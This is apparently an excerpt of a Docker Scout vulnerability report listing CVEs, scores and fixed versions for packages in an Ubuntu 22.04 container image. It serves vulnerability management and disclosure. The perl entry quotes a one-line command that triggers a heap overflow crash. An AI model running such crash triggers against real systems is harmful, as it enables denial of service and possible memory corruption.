<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.012%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>1st percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

GnuPG can be made to spin on a relatively small input by (for example) crafting a public key with thousands of signatures attached, compressed down to just a few KB.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 1" src="https://img.shields.io/badge/L-1-fce1a9"/> <!-- unspecified: 0 --><strong>glibc</strong> <code>2.35-0ubuntu3.8</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/glibc@2.35-0ubuntu3.8?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-0395?s=ubuntu&n=glibc&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C2.35-0ubuntu3.9"><img alt="medium : CVE--2025--0395" src="https://img.shields.io/badge/CVE--2025--0395-lightgrey?label=medium%20&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code><2.35-0ubuntu3.9</code></td></tr>
<tr><td>Fixed version</td><td><code>2.35-0ubuntu3.9</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.136%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>35th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

When the assert() function in the GNU C Library versions 2.13 to 2.40 fails, it does not allocate enough space for the assertion failure message string and size information, which may lead to a buffer overflow if the message string size aligns to page size.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2016-20013?s=ubuntu&n=glibc&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low 7.5: CVE--2016--20013" src="https://img.shields.io/badge/CVE--2016--20013-lightgrey?label=low%207.5&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>7.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.201%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>43rd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

sha256crypt and sha512crypt through 0.6 allow attackers to cause a denial of service (CPU consumption) because the algorithm's runtime is proportional to the square of the length of the password.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>expat</strong> <code>2.4.7-1ubuntu0.5</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/expat@2.4.7-1ubuntu0.5?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-8176?s=ubuntu&n=expat&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C2.4.7-1ubuntu0.6"><img alt="medium 7.5: CVE--2024--8176" src="https://img.shields.io/badge/CVE--2024--8176-lightgrey?label=medium%207.5&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code><2.4.7-1ubuntu0.6</code></td></tr>
<tr><td>Fixed version</td><td><code>2.4.7-1ubuntu0.6</code></td></tr>
<tr><td>CVSS Score</td><td><code>7.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.346%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>56th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A stack overflow vulnerability exists in the libexpat library due to the way it handles recursive entity expansion in XML documents. When parsing an XML document with deeply nested entity references, libexpat can be forced to recurse indefinitely, exhausting the stack space and causing a crash. This issue could lead to denial of service (DoS) or, in some cases, exploitable memory corruption, depending on the environment and library usage.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>idna</strong> <code>2.5</code> (pypi)</summary>

<small><code>pkg:pypi/idna@2.5</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-3651?s=github&n=idna&t=pypi&vr=%3C3.7"><img alt="medium 6.9: CVE--2024--3651" src="https://img.shields.io/badge/CVE--2024--3651-lightgrey?label=medium%206.9&labelColor=fbb552"/></a> <i>Uncontrolled Resource Consumption</i>

<table>
<tr><td>Affected range</td><td><code><3.7</code></td></tr>
<tr><td>Fixed version</td><td><code>3.7</code></td></tr>
<tr><td>CVSS Score</td><td><code>6.9</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:L/AC:L/AT:N/PR:N/UI:N/VC:N/VI:N/VA:H/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.064%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>20th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Impact
A specially crafted argument to the `idna.encode()` function could consume significant resources. This may lead to a denial-of-service.

### Patches
The function has been refined to reject such strings without the associated resource consumption in version 3.7.

### Workarounds
Domain names cannot exceed 253 characters in length, if this length limit is enforced prior to passing the domain to the `idna.encode()` function it should no longer consume significant resources. This is triggered by arbitrarily large inputs that would not occur in normal usage, but may be passed to the library assuming there is no preliminary input validation by the higher-level application.

### References
* https://huntr.com/bounties/93d78d07-d791-4b39-a845-cbfabc44aadb

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>scikit-learn</strong> <code>1.1.2</code> (pypi)</summary>

<small><code>pkg:pypi/scikit-learn@1.1.2</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-5206?s=github&n=scikit-learn&t=pypi&vr=%3C1.5.0"><img alt="medium 5.3: CVE--2024--5206" src="https://img.shields.io/badge/CVE--2024--5206-lightgrey?label=medium%205.3&labelColor=fbb552"/></a> <i>Storage of Sensitive Data in a Mechanism without Access Control</i>

<table>
<tr><td>Affected range</td><td><code><1.5.0</code></td></tr>
<tr><td>Fixed version</td><td><code>1.5.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.0/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:N/A:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.029%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>6th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A sensitive data leakage vulnerability was identified in scikit-learn's TfidfVectorizer, specifically in versions up to and including 1.4.1.post1, which was fixed in version 1.5.0. The vulnerability arises from the unexpected storage of all tokens present in the training data within the `stop_words_` attribute, rather than only storing the subset of tokens required for the TF-IDF technique to function. This behavior leads to the potential leakage of sensitive information, as the `stop_words_` attribute could contain tokens that were meant to be discarded and not stored, such as passwords or keys. The impact of this vulnerability varies based on the nature of the data being processed by the vectorizer.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>wget</strong> <code>1.21.2-2ubuntu1.1</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/wget@1.21.2-2ubuntu1.1?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2021-31879?s=ubuntu&n=wget&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="medium 6.1: CVE--2021--31879" src="https://img.shields.io/badge/CVE--2021--31879-lightgrey?label=medium%206.1&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>6.1</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.111%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>31st percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

GNU Wget through 1.21.1 does not omit the Authorization header upon a redirect to a different origin, a related issue to CVE-2018-1000007.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>pam</strong> <code>1.4.0-11ubuntu2.4</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/pam@1.4.0-11ubuntu2.4?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-10041?s=ubuntu&n=pam&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="medium 4.7: CVE--2024--10041" src="https://img.shields.io/badge/CVE--2024--10041-lightgrey?label=medium%204.7&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>4.7</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:H/I:N/A:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.022%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>4th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A vulnerability was found in PAM. The secret information is stored in memory, where the attacker can trigger the victim program to execute by sending characters to its standard input (stdin). As this occurs, the attacker can train the branch predictor to execute an ROP chain speculatively. This flaw could result in leaked passwords, such as those found in /etc/shadow while performing authentications.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>pip</strong> <code>23.0.1</code> (pypi)</summary>

<small><code>pkg:pypi/pip@23.0.1</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2023-5752?s=github&n=pip&t=pypi&vr=%3C23.3"><img alt="medium 6.8: CVE--2023--5752" src="https://img.shields.io/badge/CVE--2023--5752-lightgrey?label=medium%206.8&labelColor=fbb552"/></a> <i>Improper Neutralization of Special Elements used in a Command ('Command Injection')</i>

<table>
<tr><td>Affected range</td><td><code><23.3</code></td></tr>
<tr><td>Fixed version</td><td><code>23.3</code></td></tr>
<tr><td>CVSS Score</td><td><code>6.8</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:L/AC:L/AT:N/PR:L/UI:N/VC:N/VI:H/VA:N/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.041%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>12th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

When installing a package from a Mercurial VCS URL, e.g. `pip install hg+...`, with pip prior to v23.3, the specified Mercurial revision could be used to inject arbitrary configuration options to the `hg clone` call (e.g. `--config`). Controlling the Mercurial configuration can modify how and which repository is installed. This vulnerability does not affect users who aren't installing from Mercurial.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>perl</strong> <code>5.34.0-3ubuntu1.3</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/perl@5.34.0-3ubuntu1.3?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-56406?s=ubuntu&n=perl&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C5.34.0-3ubuntu1.4"><img alt="medium : CVE--2024--56406" src="https://img.shields.io/badge/CVE--2024--56406-lightgrey?label=medium%20&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code><5.34.0-3ubuntu1.4</code></td></tr>
<tr><td>Fixed version</td><td><code>5.34.0-3ubuntu1.4</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.017%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>3rd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A heap buffer overflow vulnerability was discovered in Perl.  Release branches 5.34, 5.36, 5.38 and 5.40 are affected, including development versions from 5.33.1 through 5.41.10.  When there are non-ASCII bytes in the left-hand-side of the `tr` operator, `S_do_trans_invmap` can overflow the destination pointer `d`.  $ perl -e '$_ = "\x{FF}" x 1000000; tr/\xFF/\x{100}/;' Segmentation fault (core dumped)  It is believed that this vulnerability can enable Denial of Service and possibly Code Execution attacks on platforms that lack sufficient defenses.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>libtasn1-6</strong> <code>4.18.0-4build1</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/libtasn1-6@4.18.0-4build1?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-12133?s=ubuntu&n=libtasn1-6&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C4.18.0-4ubuntu0.1"><img alt="medium 5.3: CVE--2024--12133" src="https://img.shields.io/badge/CVE--2024--12133-lightgrey?label=medium%205.3&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code><4.18.0-4ubuntu0.1</code></td></tr>
<tr><td>Fixed version</td><td><code>4.18.0-4ubuntu0.1</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:L</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.040%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>12th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A flaw in libtasn1 causes inefficient handling of specific certificate data. When processing a large number of elements in a certificate, libtasn1 takes much longer than expected, which can slow down or even crash the system. This flaw allows an attacker to send a specially crafted certificate, causing a denial of service attack.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>gnutls28</strong> <code>3.7.3-4ubuntu1.5</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/gnutls28@3.7.3-4ubuntu1.5?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-12243?s=ubuntu&n=gnutls28&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C3.7.3-4ubuntu1.6"><img alt="medium 5.3: CVE--2024--12243" src="https://img.shields.io/badge/CVE--2024--12243-lightgrey?label=medium%205.3&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code><3.7.3-4ubuntu1.6</code></td></tr>
<tr><td>Fixed version</td><td><code>3.7.3-4ubuntu1.6</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:L</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.171%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>39th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A flaw was found in GnuTLS, which relies on libtasn1 for ASN.1 data processing. Due to an inefficient algorithm in libtasn1, decoding certain DER-encoded certificate data can take excessive time, leading to increased resource consumption. This flaw allows a remote attacker to send a specially crafted certificate, causing GnuTLS to become unresponsive or slow, resulting in a denial-of-service condition.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>scipy</strong> <code>1.9.1</code> (pypi)</summary>

<small><code>pkg:pypi/scipy@1.9.1</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2023-25399?s=pypa&n=scipy&t=pypi&vr=%3C1.10.0"><img alt="medium : CVE--2023--25399" src="https://img.shields.io/badge/CVE--2023--25399-lightgrey?label=medium%20&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code><1.10.0</code></td></tr>
<tr><td>Fixed version</td><td><code>1.10.0</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.135%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>35th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

A refcounting issue which leads to potential memory leak was discovered in scipy commit 8627df31ab in Py_FindObjects() function.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>libcap2</strong> <code>1:2.44-1ubuntu0.22.04.1</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/libcap2@1%3A2.44-1ubuntu0.22.04.1?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-1390?s=ubuntu&n=libcap2&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C1%3A2.44-1ubuntu0.22.04.2"><img alt="medium : CVE--2025--1390" src="https://img.shields.io/badge/CVE--2025--1390-lightgrey?label=medium%20&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code><1:2.44-1ubuntu0.22.04.2</code></td></tr>
<tr><td>Fixed version</td><td><code>1:2.44-1ubuntu0.22.04.2</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.018%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>3rd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

The PAM module pam_cap.so of libcap configuration supports group names starting with “@”, during actual parsing, configurations not starting with “@” are incorrectly recognized as group names. This may result in nonintended users being granted an inherited capability set, potentially leading to security risks. Attackers can exploit this vulnerability to achieve local privilege escalation on systems where /etc/security/capability.conf is used to configure user inherited privileges by constructing specific usernames.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 3" src="https://img.shields.io/badge/L-3-fce1a9"/> <!-- unspecified: 0 --><strong>openssl</strong> <code>3.0.2-0ubuntu1.18</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/openssl@3.0.2-0ubuntu1.18?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-9143?s=ubuntu&n=openssl&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C3.0.2-0ubuntu1.19"><img alt="low : CVE--2024--9143" src="https://img.shields.io/badge/CVE--2024--9143-lightgrey?label=low%20&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code><3.0.2-0ubuntu1.19</code></td></tr>
<tr><td>Fixed version</td><td><code>3.0.2-0ubuntu1.19</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.303%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>53rd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Issue summary: Use of the low-level GF(2^m) elliptic curve APIs with untrusted explicit values for the field polynomial can lead to out-of-bounds memory reads or writes.  Impact summary: Out of bound memory writes can lead to an application crash or even a possibility of a remote code execution, however, in all the protocols involving Elliptic Curve Cryptography that we're aware of, either only "named curves" are supported, or, if explicit curve parameters are supported, they specify an X9.62 encoding of binary (GF(2^m)) curves that can't represent problematic input values. Thus the likelihood of existence of a vulnerable application is low.  In particular, the X9.62 encoding is used for ECC keys in X.509 certificates, so problematic inputs cannot occur in the context of processing X.509 certificates.  Any problematic use-cases would have to be using an "exotic" curve encoding.  The affected APIs include: EC_GROUP_new_curve_GF2m(), EC_GROUP_new_from_params(), and various supporting BN_GF2m_*() functions.  Applications working with "exotic" explicit binary (GF(2^m)) curve parameters, that make it possible to represent invalid field polynomials with a zero constant term, via the above or similar APIs, may terminate abruptly as a result of reading or writing outside of array bounds.  Remote code execution cannot easily be ruled out.  The FIPS modules in 3.3, 3.2, 3.1 and 3.0 are not affected by this issue.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2024-41996?s=ubuntu&n=openssl&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low : CVE--2024--41996" src="https://img.shields.io/badge/CVE--2024--41996-lightgrey?label=low%20&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>EPSS Score</td><td><code>0.129%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>34th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Validating the order of the public keys in the Diffie-Hellman Key Agreement Protocol, when an approved safe prime is used, allows remote attackers (from the client side) to trigger unnecessarily expensive server-side DHE modular-exponentiation calculations. The client may cause asymmetric resource consumption. The basic attack scenario is that the client must claim that it can only communicate with DHE, and the server must be configured to allow DHE and validate the order of the public key.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2024-13176?s=ubuntu&n=openssl&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3C3.0.2-0ubuntu1.19"><img alt="low : CVE--2024--13176" src="https://img.shields.io/badge/CVE--2024--13176-lightgrey?label=low%20&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code><3.0.2-0ubuntu1.19</code></td></tr>
<tr><td>Fixed version</td><td><code>3.0.2-0ubuntu1.19</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.033%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>8th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Issue summary: A timing side-channel which could potentially allow recovering the private key exists in the ECDSA signature computation.  Impact summary: A timing side-channel in ECDSA signature computations could allow recovering the private key by an attacker. However, measuring the timing would require either local access to the signing application or a very fast network connection with low latency.  There is a timing signal of around 300 nanoseconds when the top word of the inverted ECDSA nonce value is zero. This can happen with significant probability only for some of the supported elliptic curves. In particular the NIST P-521 curve is affected. To be able to measure this leak, the attacker process must either be located in the same physical computer or must have a very fast network connection with low latency. For that reason the severity of this vulnerability is Low.  The FIPS modules in 3.4, 3.3, 3.2, 3.1 and 3.0 are affected by this issue.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 2" src="https://img.shields.io/badge/L-2-fce1a9"/> <!-- unspecified: 0 --><strong>gcc-12</strong> <code>12.3.0-1ubuntu1~22.04</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/gcc-12@12.3.0-1ubuntu1~22.04?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2022-27943?s=ubuntu&n=gcc-12&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low 5.5: CVE--2022--27943" src="https://img.shields.io/badge/CVE--2022--27943-lightgrey?label=low%205.5&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>5.5</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:U/C:N/I:N/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.044%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>13th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

libiberty/rust-demangle.c in GNU GCC 11.2 allows stack consumption in demangle_const, as demonstrated by nm-new.

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2023-4039?s=ubuntu&n=gcc-12&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low 4.8: CVE--2023--4039" src="https://img.shields.io/badge/CVE--2023--4039-lightgrey?label=low%204.8&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>4.8</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:L/A:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.124%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>33rd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

**DISPUTED**A failure in the -fstack-protector feature in GCC-based toolchains that target AArch64 allows an attacker to exploit an existing buffer overflow in dynamically-sized local variables in your application without this being detected. This stack-protector failure only applies to C99-style dynamically-sized local variables or those created using alloca(). The stack-protector operates as intended for statically-sized local variables. The default behavior when the stack-protector detects an overflow is to terminate your application, resulting in controlled loss of availability. An attacker who can exploit a buffer overflow without triggering the stack-protector might be able to change program flow control to cause an uncontrolled loss of availability or to go further and affect confidentiality or integrity. NOTE: The GCC project argues that this is a missed hardening bug and not a vulnerability by itself.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 2" src="https://img.shields.io/badge/L-2-fce1a9"/> <!-- unspecified: 0 --><strong>ncurses</strong> <code>6.3-2ubuntu0.1</code> (deb)</summary>

<small><code>pkg:deb/ubuntu/ncurses@6.3-2ubuntu0.1?os_distro=jammy&os_name=ubuntu&os_version=22.04</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2023-50495?s=ubuntu&n=ncurses&ns=ubuntu&t=deb&osn=ubuntu&osv=22.04&vr=%3E%3D0"><img alt="low 6.5: CVE--2023--50495" src="https://img.shields.io/badge/CVE--2023--50495-lightgrey?label=low%206.5&labelColor=fce1a9"/></a> 

<table>
<tr><td>Affected range</td><td><code>>=0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
